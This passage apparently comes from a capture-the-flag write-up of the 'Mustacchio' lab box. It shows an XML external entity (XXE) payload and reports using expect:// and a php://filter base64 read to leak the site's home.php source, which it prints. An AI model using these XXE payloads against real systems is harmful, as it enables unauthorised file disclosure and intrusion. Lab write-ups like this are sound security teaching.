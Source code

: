 I restarted the machine and tried the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE funnies 
	[
		<!ENTITY custom SYSTEM "">
	]
>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&custom;</com>
</comment>
```

This did not make any error. Next I tried to use `expect://id` as the SYSTEM string for the `custom` entity, which did not succeed, but did not crash the service.

I then tried to use the `php://filter/convert.base64-encode/resource=<file>` as the SYSTEM string, and succeeded in extracting the `home.php` file, which (base64 decoded) has the following content:

```php
<?php require_once 'auth/sessman.php'; ?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mustacchio | Admin Page</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
    <link rel="stylesheet" href="assets/css/home.css">
    <script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
  }
</script>
</head>
<body>

    <!-- Barry, you can now SSH in using your key!-->

    <img id="folhas" src="assets/imgs/pexels-alexander-tiupa-192136.jpg" alt="">

    <nav class="position-fixed top-0 w-100 m-auto ">
        <ul class="d-flex flex-row align-items-center justify-content-between h-100">
            <li>AdminPanel</li>
            <li class="mt-auto mb-auto"><a href="auth/logout.php">Logout</a></li>
        </ul>
    </nav>

    <section id="add-comment" class="container-fluid d-flex flex-column align-items-center justify-content-center">
        <h3>Add a comment on the website.</h3>

        <form action="" method="post" class="container d-flex flex-column align-items-center justify-content-center">
            <textarea id="box" name="xml" rows="10" cols="50"></textarea><br/>
            <input type="submit" id="sub" onclick="checktarea()" value="Submit"/>
```